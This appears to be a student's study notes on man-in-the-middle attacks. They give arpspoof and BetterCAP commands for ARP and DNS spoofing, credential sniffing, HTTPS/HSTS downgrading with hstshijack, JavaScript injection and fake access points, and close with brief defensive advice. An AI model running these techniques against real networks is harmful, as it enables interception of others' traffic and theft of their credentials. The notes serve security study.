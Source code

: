 # Man in the middle (MITM) attack
-   hacker is in the middle of the connection

## ARP spoofing
-   ARP links IP addresses to MAC addresses
-   ARP is not secured and not verified
-   send from attacker machine response to gateway/router that he is the victim pc (gateway will link the ip for victim to the attacker mac address) and to the victim pc that he is a gateway (victim pc will link the mac of attacker to gateway ip)
-   possible programs to use: ARP spoof, BetterCAP
-   on attacker machine port forwarding has to be also enabled (to work as a router)

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward # enable forwarding 
```

### ARP spoof
```bash
# run for both targets at once (one against router, one against victim) and keep running for the whole attack
# example to victim (tell to victim I am a router)
arpspoof -i eth0 -t 192.168.72.128 192.168.72.2
# example to router (tell to router I am a victim)
arpspoof -i eth0 -t 192.168.72.2 192.168.72.128
```
-   `-i` interface
-   `-t` target network
-   at the end put ip address we want to be as attacker (router address od victim address)

### BetterCAP
```bash
bettercap -iface eth0 # -iface: interface which we want to run the attacks against
# inside bettercup run commands like "net.probe on" to discover all connected hosts to the network
# run "help command" example: "help net.probe" to show help for the command
```
-   arp spoofing inside BetterCAP:
    -   `net.probe` and `net.recon` has to be running
    -   to modify any option of the command, write `set option value`
```bash
net.probe on
net.recon on #probably already running if so, do not include inside caplet file mentioned bellow. Any error stops running the file
set arp.spoof.fullduplex true # run spoofing on both targets (router and victim) 
set arp.spoof.targets 192.168.72.128 # set targets (router is set automatically in fullduplex setting)
arp.spoof on # run the spoofing
```

#### Capture data while ARP spoofing with BetterCAP
-   BetterCAP can not only capture the data, but also it can analyze them (based on settings) and show the interesting data
```bash
net.sniff on
```

-   after closing BetterCAP everything has to be set manually again or "caplet" file can be created, to automatically run all the commands. Steps:
    1)  create * and write down all the commands
    2)  run BetterCAP with option `-caplets filename.cap`
    3)  there are many couplets predefined for BetterCAP and can be downloaded to specific location `/usr/local/share/bettercap/caplets`. To see them use `caplet.show`

-   for passwords to be seen, http will be seen. Therefor for https we have to make unsecure versions of the web pages. It can be done as bellow:
```bash
set net.sniff.local true # sniff all data even if it thinks it is local data
hstshijack/hstshijack # run caplet for https sniffing, downloaded as mentioned in 3)
```

#### HSTS attacks
-   modern browsers comes with list of pages, which should be loaded only through https
-   check is being done locally
-   only way to bypass this feature the victim will be forwarded to slightly different url (facebook.com = facebook.corn)
-   for facebook, instagram etc. this will only work if the page is opened from bypassed search engine like google.ie.
-   attack is the same as above, just the caplet should be modified to bypass the webpages. The result can be seen in the folder attachments/hstshijack
-   for Chrome works only if Secure DNS disabled (inside chrome settings)

### DNS spoofing
-   doesn't work against HSTS websites
-   routing in local network can be changed as mentioned in ARP spoofing
-   same can be done for routing out of the local network, so the victim can be redirected to any attacker's website
-   kali Linux comes with webserver, to be able to run websites
```bash
service apache2 start # start webserver, it is running on same ip as the attacker machine (ifconfig)
```
-   website location is `/var/www/html`
-   to run the attack, run the ARP spoofing described above and:
```bash
set dns.spoof.all true # spoof all DNS requests, if not
set dns.spoof.domains test.com, *.test.com # specify which domains to spoof
dns.spoof on # start the module
```
- `dns.spoof.address` is set by default to interface address

### Basic JS code injection
-   it is possible to modify the response since the attacker is MITM
-   steps to code injection
-   works only on HTTP sites
    1)  again run all the ARP spoofing commands from above need to be run except the `hstshijack/hstshijack`
    2)  create *.js file
    3)  insert the created file path inside `hstshijack` option `set hstshijack.payloads` as `*:/path/to/file.js`
    4)  run command `hstshijack/hstshijack` in bettercap

### BetterCAP UI
-   BetterCAP provides also UI. Just run the bettercap on wanted interface `bettercap -iface eth0`
-   inside bettercap install the UI by `ui.update`
-   run the ui by `http-ui`. No open browser with ip shown inside the cmd
-   default login: user, pass

## Create a fake access point
-   to become a MITM it is also the way
-   how to:
    1)  create a hotspot: to do so, one of he tools is https://github.com/lakinduakash/linux-wifi-hotspot 
    2)  see the communication inside the wireshark / use attacks as previously mentioned

## Protection against MITM attacks
-   to detect ARP spoofing exist tools like XArp, which will also show the attacker device
    -   it will detect the attacker based on changed IP address for the router

-   It is possible to find suspicious behavior with wireshark
    -   are there many ARP requests broadcasted? 
    -   inside analyze option from main top bar, it is possible to see warnings
        -   are there more ips for one MAC configured?

-   To not allow APR poisoning, it is possible to setup ip addresses manually (static)
    -   only for small networks, where devices are not changing.

-   If connected to public wifi connect only to https pages. Tools like firefox: plugin https everywhere. It works only for websites which has https. But still some data can be seen by attacker (DNS spoofing still possible, visited domains still visible).

- VPN is making the connection fully secured even for HTTP, since VPM creates encrypted tunned from server to device. But the provider can see and scan everything. So to be still secured it is still better to stay on HTTPS sites.